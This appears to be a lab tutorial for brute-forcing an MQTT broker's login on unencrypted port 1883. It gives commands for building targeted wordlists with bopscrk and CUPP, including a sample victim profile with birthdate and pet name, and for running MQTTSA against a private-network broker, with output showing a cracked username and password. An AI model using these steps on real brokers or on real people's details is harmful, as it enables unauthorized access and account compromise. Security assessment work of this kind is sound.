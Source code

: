 ### Brute Force MQTT

This only works with MQTT over 1883 (Which is by the way not recommended for secure implementations)
  
- Generate passwords to brute force
    - Option 1: Use [bopscrk (Before Outset PaSsword CRacKing)](https://github.com/r3nt0n/bopscrk)
        
        - Clone the repo
            ``` bash
            git clone https://github.com/r3nt0n/bopscrk.git
            ```
        - Change directory
            ``` bash
            cd bopscrk
            ```
        - Chreate a .txt file with passwords (python 3 required)
            ``` bash
            python3 bopscrk.py -w mikro,foo,raspberry,fab,password,1,12,123,1234,12345,123456,1234567,12345678,123456789
            ```

    - Option 2: Use [CUPP - Common User Passwords Profiler](https://github.com/Mebus/cupp) to generate passwords:
    
        - Clone the repo
            ``` bash
            git clone https://github.com/Mebus/cupp.git
            ```
        - Change directory
            ``` bash
            cd cupp
            ```
        - Create passwords (Python 3 required)
            ``` bash
            python3 cupp.py -i
            ```
        - Interactive questionsaire mode
            ``` bash
             ___________ 
               cupp.py!                 # Common
                  \                     # User
                   \   ,__,             # Passwords
                    \  (oo)____         # Profiler
                       (__)    )\   
                          ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                                        [ Mebus | https://github.com/Mebus/]
            
            
            [+] Insert the information about the victim to make a dictionary
            [+] If you don't know all the info, just hit enter when asked! ;)
            
            > First Name: Max 
            > Surname: Mustermann
            > Nickname: 
            > Birthdate (DDMMYYYY): 01021995
            
            
            > Partners) name: 
            > Partners) nickname: 
            > Partners) birthdate (DDMMYYYY): 
            
            
            > Child's name: 
            > Child's nickname: 
            > Child's birthdate (DDMMYYYY): 
            
            
            > Pet's name: Gringo
            > Company name: Campus
            
            
            > Do you want to add some key words about the victim? Y/[N]: foo,mikrofab,raspberrypi 
            > Do you want to add special chars at the end of words? Y/[N]: Y
            > Do you want to add some random numbers at the end of words? Y/[N]:Y
            > Leet mode? (i.e. leet = 1337) Y/[N]: N
            
            [+] Now making a dictionary...
            [+] Sorting list and removing duplicates...
            [+] Saving dictionary to max.txt, counting 5928 words.  
            ```
- Brute Force Client
    - Clone the [MQTTSA](https://github.com/stfbk/mqttsa) repo
        ``` bash
        git clone https://github.com/stfbk/mqttsa.git 
        ```
    - Change directory
        ``` bash
        cd mqttsa
        ```
    - Execute brute force on Broker:
        ``` bash
        python3 mqttsa.py 192.168.88.100 -p 1883 -u pubclient -w password.txt
        ```
    - Output - Our user:password (pubclient:mikrofoo123) was found. We could now publish data to the broker using these credentials
        ``` bash
        Performing brute force (press ctrl+c once to skip)
        trying: pubclient, mikro
        trying: pubclient, raspberry
        trying: pubclient, password
        trying: pubclient, mikrofoo123
        trying wildcard username: #
        Attempting the connection with: [pubclient,mikrofoo123]
        10 seconds connection timeout (press ctrl+c once to skip)
        Connected successfully using password found with brute force.
        ```
    - We also get a .pdf report lists all the information from our attack